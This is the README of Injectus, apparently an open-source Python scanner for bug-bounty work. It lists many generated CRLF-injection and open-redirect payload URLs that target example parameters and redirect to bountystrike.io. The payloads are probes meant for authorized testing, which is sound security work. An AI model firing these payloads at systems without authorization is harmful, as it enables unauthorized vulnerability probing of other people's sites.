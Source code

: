# Injectus

Simple python tool that goes through a list of URLs trying CRLF and open redirect payloads.


```

    ▪   ▐ ▄  ▐▄▄▄▄▄▄ . ▄▄· ▄▄▄▄▄▄• ▄▌.▄▄ · 
    ██ •█▌▐█  ·██▀▄.▀·▐█ ▌▪•██  █▪██▌▐█ ▀. 
    ▐█·▐█▐▐▌▪▄ ██▐▀▀▪▄██ ▄▄ ▐█.▪█▌▐█▌▄▀▀▀█▄
    ▐█▌██▐█▌▐▌▐█▌▐█▄▄▌▐███▌ ▐█▌·▐█▄█▌▐█▄▪▐█
    ▀▀▀▀▀ █▪ ▀▀▀• ▀▀▀ ·▀▀▀  ▀▀▀  ▀▀▀  ▀▀▀▀ 
              ~ BOUNTYSTRIKE ~

usage: Injectus [-h] [-f FILE] [-u URL] [-r] [-w WORKERS] [-t TIMEOUT] [-c]
                [-op]

Brute force CRLF and open redirect payloads for a given target. Crafted by
@dubs3c.

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing URLs
  -u URL, --url URL     Single URL to test
  -r, --no-request      Only build attack list, do not perform any requests
  -w WORKERS, --workers WORKERS
                        Amount of asyncio workers, default is 20
  -t TIMEOUT, --timeout TIMEOUT
                        HTTP request timeout, default is 6 seconds
  -c, --crlf            Only perform crlf attacks
  -op, --openredirect   Only perform open redirect attacks
```

## Motivation
Needed a simple CRLF/open redirect scanner that I could include into my bug bounty pipeline at [https://github.com/BountyStrike/Bountystrike-sh](https://github.com/BountyStrike/Bountystrike-sh). Didn't find any tools that satisfied my need, so I created Injectus. It's a little bit of an experiment, to see if it works better than other tools.

## Design

If we have the following URL:
```
https://dubell.io/?param1=value1&url=value2&param3=value3
```

**For CRLF attacks**, Injectus will inject every payload once into the value of one parameter, for every n parameters. For example, Injectus will create the following list with the URL above:
```
https://dubell.io/?param1=%%0a0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0d%0abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%23%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30%61bounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25%30abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%25250abounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%3f%0dbounty:strike&url=value2&param3=value3
https://dubell.io/?param1=%u000abounty:strike&url=value2&param3=value3

https://dubell.io/?param1=value1&url=%%0a0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0d%0abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%23%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30%61bounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25%30abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%25250abounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%3f%0dbounty:strike&param3=value3
https://dubell.io/?param1=value1&url=%u000abounty:strike&param3=value3

https://dubell.io/?param1=value1&url=value2&param3=%%0a0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0d%0abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%23%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30%61bounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25%30abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%25250abounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%3f%0dbounty:strike
https://dubell.io/?param1=value1&url=value2&param3=%u000abounty:strike
```

As you can see, every CRLF payload is injected in the first parameter's value. Once the loop is done, Injectus will inject every payload into the second parameter, and so on. Once all parameters have been injected, the list is complete.

If there are no query parameters, Injectus will simply append each payload to the URL, like so:
```
https://dubell.io/some/path/%%0a0abounty:strike
https://dubell.io/some/path/%0abounty:strike
https://dubell.io/some/path/%0d%0abounty:strike
https://dubell.io/some/path/%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%23%0dbounty:strike
https://dubell.io/some/path/%25%30%61bounty:strike
https://dubell.io/some/path/%25%30abounty:strike
https://dubell.io/some/path/%250abounty:strike
https://dubell.io/some/path/%25250abounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%3f%0dbounty:strike
https://dubell.io/some/path/%u000abounty:strike
```

**When injecting open redirect payloads**, Injectus will only inject a payload if there exists a query/path parameter containing a typical redirect keyword, e.g. `url`. Injecting into the following URL `https://dubell.io/?param1=value1&url=dashboard&param3=value3`:
```
https://dubell.io/?param1=value1&url=$2f%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2f$2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io%2f%2fparam3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.io//param3=value3
https://dubell.io/?param1=value1&url=%2fbountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=////bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=///bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=//bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/\x08ountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=/http://bountystrike.ioparam3=value3
https://dubell.io/?param1=value1&url=bountystrike.ioparam3=value3
```
The URL contains the query parameter `url`, so Injectus will inject the payloads into that parameter.

An example when using path parameters. Original URL is `https://dubell.io/some/path/that/redirect/dashboard`:
```
https://dubell.io/some/path/that/redirect/$2f%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2f$2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io%2f%2f
https://dubell.io/some/path/that/redirect/%2fbountystrike.io
https://dubell.io/some/path/that/redirect/%2fbountystrike.io//
https://dubell.io/some/path/that/redirect/////bountystrike.io
https://dubell.io/some/path/that/redirect////bountystrike.io
https://dubell.io/some/path/that/redirect///bountystrike.io
https://dubell.io/some/path/that/redirect//\x08ountystrike.io
https://dubell.io/some/path/that/redirect//bountystrike.io
https://dubell.io/some/path/that/redirect//http://bountystrike.io
https://dubell.io/some/path/that/redirect/bountystrike.io
```

As before, if no query parameters or path parameters are found, Injectus will simply append each payload to the URL:
```
https://dubell.io/$2f%2fbountystrike.io%2f%2f
https://dubell.io/%2f$2fbountystrike.io
https://dubell.io/%2fbountystrike.io%2f%2f
https://dubell.io/%2fbountystrike.io
https://dubell.io/%2fbountystrike.io//
https://dubell.io/////bountystrike.io
https://dubell.io////bountystrike.io
https://dubell.io///bountystrike.io
https://dubell.io//\\bountystrike.io
https://dubell.io//bountystrike.io
https://dubell.io//http://bountystrike.io
https://dubell.io/bountystrike.io
```

## Installation
```
pip3.7 install -r requirements.txt --user
```

## Contributing
Any feedback or ideas are welcome! Want to improve something? Create a pull request!

1. Fork it!
2. Create your feature branch: `git checkout -b my-new-feature`
3. Configure pre commit checks: `pre-commit install`
4. Commit your changes: `git commit -am 'Add some feature'`
5. Push to the branch: `git push origin my-new-feature`
6. Submit a pull request :D

